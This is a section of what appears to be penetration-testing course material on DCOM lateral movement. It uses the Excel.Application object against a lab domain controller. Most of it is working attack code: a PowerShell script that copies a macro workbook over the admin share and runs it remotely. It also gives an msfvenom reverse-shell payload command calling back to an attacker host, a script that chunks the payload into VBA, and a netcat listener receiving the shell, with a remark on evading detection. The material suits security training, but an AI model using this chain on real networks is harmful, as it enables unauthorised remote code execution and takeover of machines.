 In this section we will take a closer look at a fairly new lateral movement technique that exploits the _Distributed Component Object Model_ ( _DCOM_ ).

The Microsoft Component Object Model (COM) is a system for creating software components that interact with each other. While COM was created for either same-process or cross-process interaction, it was extended to Distributed Component Object Model (DCOM) for interaction between multiple computers over a network.

Both COM and DCOM are very old technologies dating back to the very first editions of Windows. Interaction with DCOM is performed over RPC on TCP port 135 and local administrator access is required to call the DCOM Service Control Manager, which is essentially an API.

DCOM objects related to Microsoft Office allow lateral movement, both through the use of Outlook as well as PowerPoint. Since this requires the presence of Microsoft Office on the target computer, this lateral movement technique is best leveraged against workstations. However, in our case, we will demonstrate this attack in the lab against the dedicated domain controller on which Office is already installed. Specifically, we will leverage the _Excel.Application_ DCOM object.

To begin, we must first discover the available methods or sub-objects for this DCOM object using PowerShell. For this example, we are operating from the Windows 10 client as the jeff_admin user, a local admin on the remote machine.

In this sample code, we first create an instance of the object using PowerShell and the _CreateInstance_ method of the _System.Activator_ class.

As an argument to _CreateInstance_, we must provide its type by using the _GetTypeFromProgID_ method, specifying the program identifier (which in this case is _Excel.Application_), along with the IP address of the remote workstation.

With the object instantiated, we can discover its available methods and objects using the _Get-Member_ cmdlet.

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))

$com | Get-Member
```

This script produces the following truncated output:

```
         TypeName: System.__ComObject#{000208d5-0000-0000-c000-000000000046}
Name                    MemberType     Definition                                                                                                                      
----                    ----------     ----------                                                                                                                      
ActivateMicrosoftApp    Method         void ActivateMicrosoftApp (XlMSApplication)                                                                                     
AddChartAutoFormat      Method         void AddChartAutoFormat (Variant, string, Varia  
...
ResetTipWizard          Method         void ResetTipWizard ()
Run                     Method         Variant Run (Variant...
Save                    Method         void Save (Variant)
...
Workbooks               Property       Workbooks Workbooks () {get} 
...
```

The output contains many methods and objects but we will focus on the _Run_ method, which will allow us to execute a Visual Basic for Applications (VBA) macro remotely.

To use this, we'll first create an Excel document with a proof of concept macro by selecting the _VIEW_ ribbon and clicking _Macros_ from within Excel.

In this simple proof of concept, we will use a VBA macro that launches notepad.exe:

```
Sub mymacro()
    Shell ("notepad.exe")
End Sub
```

We have named the macro "mymacro" and saved the Excel file in the legacy .xls format.

To execute the macro, we must first copy the Excel document to the remote computer. Since we must be a local administrator to take advantage of DCOM, we should also have access to the remote filesystem through SMB.

We can use the _Copy_ method of the .NET _System.IO.File_ class to copy the file. To invoke it, we specify the source file, destination file, and a flag to indicate whether the destination file should be overwritten if present, as shown in the PowerShell code below:

```
$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"

$RemotePath = "\\192.168.1.110\c$\myexcel.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```

Before we are able to execute the _Run_ method on the macro, we must first specify the Excel document it is contained in. This is done through the _Open_ method of the _Workbooks_ object, which is also available through DCOM as shown in the enumeration of methods and objects:

```
         TypeName: System.__ComObject#{000208d5-0000-0000-c000-000000000046}
Name                   MemberType Definition                                                                                                                      
----                   ---------- ----------                                                                                                                      
ActivateMicrosoftApp   Method     void ActivateMicrosoftApp (XlMSApplication)                                                                                     
AddChartAutoFormat     Method     void AddChartAutoFormat (Variant, string, Variant)  
...
ResetTipWizard         Method     void ResetTipWizard ()
Run                    Method     Variant Run (Variant...
Save                   Method     void Save (Variant)
...
Workbooks              Property   Workbooks Workbooks () {get} 
...
```

The _Workbooks_ object is created from the _$com_ COM handle we created earlier to perform our enumeration.

We can call the _Open_ method directly with code like this:

```
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
```

However, this code results in an error when interacting with the remote computer:

```
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
Unable to get the Open property of the Workbooks class
At line:1 char:1
+ $Workbook = $com.Workbooks.Open("C:\myexcel.xls")
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OperationStopped: (:) [], COMException
    + FullyQualifiedErrorId : System.Runtime.InteropServices.COMException
```

The reason for this error is that when _Excel.Application_ is instantiated through DCOM, it is done with the SYSTEM account. The SYSTEM account does not have a profile, which is used as part of the opening process. To fix this problem, we can simply create the Desktop folder at C:\\Windows\\SysWOW64\\config\\systemprofile, which satisfies this profile requirement.

We can create this directory with the following PowerShell code:

```
$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)
```

With the profile folder for the SYSTEM account created, we can attempt to call the _Open_ method again, which now should succeed and open the Excel document.

Now that the document is open, we can call the _Run_ method with the following complete PowerShell script:

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))

$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"

$RemotePath = "\\192.168.1.110\c$\myexcel.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")
```

This code should open the Notepad application as a background process executing in a high integrity context on the remote machine as illustrated below

![Figure 6: Notepad is launched from Excel](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/ad/7a8e083982667c6bdf201b0cc951fe38-ad07.png)

While creating a remote Notepad application is interesting, we need to upgrade this attack to launch a reverse shell instead. Since we are using an Office document, we can simply reuse the Microsoft Word client side code execution technique that we covered in a previous module.

To do this, we'll use msfvenom to create a payload for an HTA attack since it contains the Base64 encoded payload to be used with PowerShell:

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=4444 -f hta-psh -o evil.hta
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 6461 bytes
Saved as: evil.hta
```

Notice that we use the IP address of the Windows 10 client's second network interface so that the domain controller can call back to our Netcat listener.

Next, we extract the line starting with "powershell.exe -nop -w hidden -e" followed by the Base64 encoded payload and use the simple Python script in Listing 60 to split the command into smaller chunks, bypassing the size limit on literal strings in Excel macros:

```
str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```

Now we'll update our Excel macro to execute PowerShell instead of Notepad and repeat the actions to upload it to the domain controller and execute it.

```
Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
    Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
    ...
    Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
    Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
    Shell (Str)
End Sub
```

Before executing the macro, we'll start a Netcat listener on the Windows 10 client to accept the reverse command shell from the domain controller:

```
PS C:\Tools\practical_tools> nc.exe -lvnp 4444

listening on [any] 4444 ...
connect to [192.168.1.111] from (UNKNOWN) [192.168.1.110] 59121
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> 
```

While the attack requires access to both TCP 135 for DCOM and TCP 445 for SMB, this is a relatively new vector for lateral movement and may avoid some detection systems such as Network Intrusion Detection or host-based antivirus.